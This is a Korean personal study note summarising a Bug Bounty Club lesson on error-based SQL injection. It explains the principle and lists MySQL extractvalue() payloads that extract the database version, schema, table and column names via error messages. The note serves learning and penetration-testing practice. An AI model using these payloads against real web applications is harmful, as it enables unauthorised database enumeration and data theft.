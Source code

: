 # Error 기반 SQL Injection

개인 공부용으로 참고하기 위해서 버그바운티 클럽의 Pentest Gym에서 퍼온 사진과 글을 참고하여 정리한 문서입니다. 

| 출처 : https://www.bugbountyclub.com/pentestgym/view/53

# Error 기반 SQL Injection 이란?
오류 기반 SQL Injection은 주로 데이터베이스에 대한 정보를 획득하기 위해 사용된다. SQL의 잘못된 문법이나 자료형 불일치 등에 의해 데이터베이스가 알려주는 오류메시지에 의존하여 수행되는 공격 기법이다. 따라서 웹 애플리케이션에서 오류를 출력해주는 경우 주로 사용가능하다
공격자는 SQL 쿼리의 잘못된 문법을 사용해 고의적인 오류를 발생, 오류 정보를 바탕으로 데이터베이스명, 테이블, 칼럼 등 정보와 구조를 알아내어 민감한 데이터를 획득 가능케한다.
![](https://www.bugbountyclub.com/uploads/images/training/1644464304.png)

# 오류 기반 SQL Injection의 원리
웹 애플리케이션이 문법적 오류가 있는 SQL 쿼리를 데이터베이스에 요청하면 쿼리를 실행하지 못하고 오류를 반환한다. 만약 개발자가 디버깅을 위해 이 오류를 HTTP 응답 내에서 출력하도록 작성이 되어있고, 이를 방치했다면 일반 사용자도 확인할 수 있게 된다.
경우에 따라 오류가 웹 브라우저에서는 출력이 되지 않지만 소스코드의 주석에서 나타날 수도 있다.

# 공격 기법
## MySQL(MariaDB도 해당)
XPath와 Double query 방식이 있다.

### XPath
`extractvalue()` 함수를 활용하는 기법으로 MySQL 기준 5.1 이상의 버전에서 유효하다.
```bash
[Syntax]
extractvalue(xml_frag, xpath_expr)
```
XML `xml_frag`와 XPath 표현식인 xpath_expr 두개의 인수가 필요하다. 두개의 인수를 통해 XML에서 XPath 표현식에 일치하는 데이터를 추출하여 반환한다
만약 두번째 인수에서 유효하지 않은 XPath 표현식이 사용되면 `ERROR 1105 (HY000): XPATH syntax error: 'xpath_expr 인수의 값' ` 이러한 오류가 발생한다.

한가지 알아둬야할 점은, xpath_expr 인수로 임의의 SQL 쿼리를 지정했을 때 쿼리의 실행 결과가 오류 메시지를 포함한다는 것이다. 이 점을 이용해 공격을 수행 할 수 있음. 
첫번째 인수는 임의의 값을 지정하기 위해 `rand()` 함수를 사용, 두번째 인수가 항상 유효하지 않은 XPath 표현식이 되도록 하기 위해 `concat()` 함수를 이용해 콜론(:)을 앞에 추가한다. 0x3a는 콜론의 16진수 표기법이다. 그리고 마지막으로 후속 쿼리를 무효화하기 위해서 가장 끝에 주석문자(--)와 공백 문자(스페이스)를 추가한다. 스페이스를 추가하는 것을 잊지 않도록 주의해야한다.
최종적으로 아래와 같은 형태가 된다.
```bash
AND extractvalue(rand(), concat(0x3a, 실행할-SQL-쿼리))-- 

# 데이터베이스 버전 추출
AND extractvalue(rand(),concat(0x3a,version()))-- 

# 데이터베이스명 추출
AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 0,1)))-- 

# 데이터베이스명 추출(웹 애플리케이션과 통신 중인 데이터베이스)
AND extractvalue(rand(),concat(0x3a,database()))-- 

# 테이블명 추출
AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,table_name) FROM information_schema.TABLES WHERE table_schema='데이터베이스명' LIMIT 0,1)))-- 

# 컬럼명 추출
AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='데이터베이스명' AND TABLE_NAME='테이블명' LIMIT 0,1)))-- 
```